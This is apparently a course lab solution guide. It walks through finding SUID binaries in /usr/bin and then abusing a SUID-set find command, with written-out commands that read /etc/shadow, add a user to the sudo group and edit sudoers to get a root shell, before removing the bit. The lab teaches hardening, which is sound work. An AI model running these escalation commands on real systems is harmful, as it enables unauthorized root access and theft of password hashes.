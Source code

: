 ## Solution Guide: Shutting Out `SUID`

For this activity, we found all the files that have `SUID` set, and compared them against the list provided by the senior administrator. We then checked for vulnerabilities, and removed the `SUID` from programs that shouldn't have had it set. 

To complete this activity we needed to:

- Run the `find` command to find all `SUID` bit-enabled programs.

- Compare the list against the list provided and verify one of the programs not on the list.

- Switch to another user and attempt to exploit the program found.

- Run the correct command to remove the `SUID`  bit from the program, and verify this command worked.


Start by searching the `/usr/bin` directory for all files that have the `SUID` bit set.

- Run `find /usr/bin -perm /4000 -type f`

  - `/usr/bin/find` is showing in the list.

- Run `ls -l /usr/bin/find` to verify that the `SUID` bit is set, using a long listing.

Switch to a user that does not have `sudo` privileges, like `sally`.

- Run `su sally` (password: `123456`)

- Run `sudo -l` to verify that `sally` has no `sudo` access.

- Run `find / -iname 'etc' -exec whoami \;`

**Bonus Task 1**: Use `find` to read or make a copy of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \;` to print the contents of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \; > shadow.txt` to save it to a file.

- Run `cat shadow.txt` to verify it is saved. 

**Bonus Task 2**: Use `find` to gain `sudo` or `root` access.

 This action can be completed by adding yourself to the `sudo` group:

- Run `find /etc -iname 'shadow' -exec usermod -aG sudo sally {} \;`

  - `find /etc -iname 'shadow'` is the example we used earlier to find a file that we know exists.
    - This is used just to activate the `-exec` portion of the command.
  - `-exec` stands for _execute_ and allows you to run a second command.
  - `usermod -aG sudo sally` is the `usermod` command that we used in the last class to add a user to the `sudo` group.
  - `{} \;` closes the `find` command. 

For this change to work, you will have to log out and log back in to this user.

- Run `exit` to log out.

- Run `su sally` to log back in.

- Run `groups` to verify.

- Run `sudo su root` to get a root shell.

To remove `sally` from the `sudo` group:

- Run `usermod -G sally sally` 

- Then, run `exit` to log out of the root user.

As another way to escalate privileges, you could use this `find` exploit to edit the `sudoers` file and add yourself with full `sudo` access.

- Run `find /etc -iname 'shadow' -exec visudo \;`

- Add the line `sally (ALL:ALL) ALL` under the `# User privilege specification` section.

  ```bash
  # User privilege specification
  root    ALL=(ALL:ALL) ALL
  sally     ALL=(ALL:ALL) ALL
  ```

Save and exit with `^X`, `y` and `enter`.

- Run `sudo -l` and enter the password for `sally`.

- Run `sudo su root` to get a root shell.

After verifying these vulnerabilities, we remove the `SUID` bit from the `find` command.

To get the path for the find command: 

- Run `which find`

Remove the `SUID` and `GUID` bits: 

- Run `sudo chmod 0755 /usr/bin/find` 

Verify they have been removed: 

- Run `ls -l /usr/bin/find`

Remove the line for `sally`, exit the `sally` user, and exit back to the `sysadmin` user. 

- Run `visudo` and remove the line for `sally`.

- Run `exit` to exit to the `sally` user.

- Run `exit` again to exit back to the `sysadmin` user.
